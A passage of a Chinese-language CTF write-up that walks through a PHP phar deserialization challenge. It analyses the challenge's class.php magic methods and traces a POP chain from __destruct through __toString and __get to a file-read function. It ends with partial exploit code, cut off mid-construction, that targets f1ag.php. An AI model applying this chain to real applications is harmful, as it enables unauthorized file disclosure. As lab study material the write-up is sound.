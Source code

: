```
        }
        public function __get($key)
        {
            return $this->get($key);
        }
        public function get($key)
        {
            if(isset($this->params[$key])) {
                $value = $this->params[$key];
            } else {
                $value = "index.php";
            }
            return $this->file_get($value);
        }
        public function file_get($value)
        {
            $text = base64_encode(file_get_contents($value));
            return $text;
        }
    }
    ?> 
    ```
    看到`class.php`发现其中不少魔术函数，而且有两个类没用用到，源码中看到一句注释`//$this->source = phar://phar.jpg`,所以猜测可能是phar反序列化。其实还有一个原因时file.php中验证文件是否存在时用了一个file_exists()函数，这个函数会触发phar反序列化。
4. 分析源码，Test类中有个读文件内容的函数(Show类中也能读取文件,但是它过滤了f1ag.php)

    1. 分析class.php，Test()类中`__get($key)`函数调用`get($value)`函数,`get($value)`函数调用`file_get($value)`函数从而读取文件内容。而`__get($key)`被调用的条件是访问对象中不存在的属性;

    大致流程就是：`不存在的函数或属性->__get魔法函数->get函数->file_get函数读取`

    2. 这时，我们就要找到一个不存在的调用,Show()类中的`__toString()`函数有`$this->str['str']->source`,所以我们可以`$this->str['str'] = new Test()`,而Test()类中没有source属性或方法，正好可以触发`__get()`函数;

    到目前为止：`Show()::__toString()->__get魔法函数->get函数->file_get函数读取`

    3. 那么下一个问题就是想办法触发`__toString()`,这个魔法函数触发的条件是，把类当作字符串处理。Show类中没有,接着往上看,C1e4r类中`__destruct()`正好有`echo $this->test;`,那么我们就可以`$this-test = new Show()`,从而来触发`toString()`函数。而`__destruct`是自动触发的。整个pop链分析完成。
5. pop链构造代码

    ```php
    <?php
    class C1e4r
    {
        public $test;
        public $str;
    }
    class Show
    {
        public $source;
        public $str;
    }
    class Test
    {
        public $file;
        public $params;
    }

    $c = new Test();
    $c->params = array('source'=>'/var/www/html/f1ag.php');
    $b = new Show();
    $b->str['str'] = $c;
```
